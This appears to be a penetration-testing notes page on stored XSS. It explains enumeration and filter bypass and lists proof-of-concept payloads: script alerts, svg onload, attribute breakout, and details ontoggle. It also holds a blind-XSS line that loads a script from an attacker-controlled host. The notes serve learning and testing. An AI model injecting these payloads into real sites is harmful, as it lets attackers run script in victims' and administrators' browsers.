

---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
  tags:
    visible: true
---

# Persistent / Stored XSS

If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.

This makes this type of XSS the most critical, as it affects a much wider audience since any user who visits the page would be a victim of this attack. Furthermore, Stored XSS may not be easily removable, and the payload may need removing from the back-end database.

***

## Enumeration

Enumerating for Stored XSS is a game of "follow the data." You are looking for any entry point where your input is saved and later rendered back to a user.

1. Identify Entry Points: Look for comment sections, profile settings, message boards, file upload names, and even logging dashboards (which can lead to "Blind XSS").
2. Submit Probes: Start with simple, non-malicious strings (e.g., `<u>test</u>` or `XSS_PROBE_123`) to see if the application sanitizes HTML tags or reflects the string exactly as entered.
3. Check the "Sink": Navigate to the page where that data is displayed to the user. Inspect the Page Source (Ctrl+U) to see exactly how your input is being rendered in the HTML.
4. Bypass Filters: If your input is being filtered or encoded, try different encodings (URL, Hex, Base64) or event handlers that might be overlooked by a WAF.

### Deeper Enumeration

**1. Checking for Contextual Encoding**

If your input is appearing inside a JavaScript variable, a standard `<script>` tag won't work. You need to break out of the string: `'; alert(1); //` _This attempts to close the existing string, execute the alert, and comment out the rest of the original code._

**2. Blind Stored XSS (Out-of-Band)**

Sometimes the "sink" is an admin panel you can't see. In these cases, use a callback to a server you control (like Burp Collaborator or XSS Hunter): `<script src="http://your-attacker-ip/log.js"></script>` _Check your web server logs to see if an admin's browser attempted to fetch this script._

### Payloads

```
<script>alert(window.origin)</script>
```

The Classic Alert. Used to confirm basic execution. If this pops up when you reload the page, you have a confirmed Stored XSS.

Suppose the page allows any input and does not perform any sanitization on it. In that case, the alert should pop up with the URL of the page it is being executed on, directly after we input our payload or when we refresh the page:

<figure><figcaption></figcaption></figure>

As we can see, we did indeed get the alert, which means that the page is vulnerable to XSS, since our payload executed successfully.

***

```
<u>test</u>
```

Simple Formatting. Use this to see if the application allows basic HTML tags. If "test" appears underlined, the application is not properly sanitizing input.

***

```

```

Event Handler Bypass. Many filters block `<script>` tags but forget to check attributes like `onerror`. This executes when the browser fails to find the image "x".

***

```
<svg/onload=alert(1)>
```

SVG Vector. A modern and often successful way to bypass filters that focus on standard HTML tags like `<div>` or ``.

***

```
"><script>alert(1)</script>
```

Attribute Breakout. Use this if your input is being reflected inside an HTML attribute (e.g., `<input value="USER_INPUT">`). The `">` attempts to close the tag early.

***

```
<details open ontoggle=alert(1)>
```

Interaction-less execution. Works in modern browsers; the `ontoggle` event triggers immediately when the `open` attribute is present.
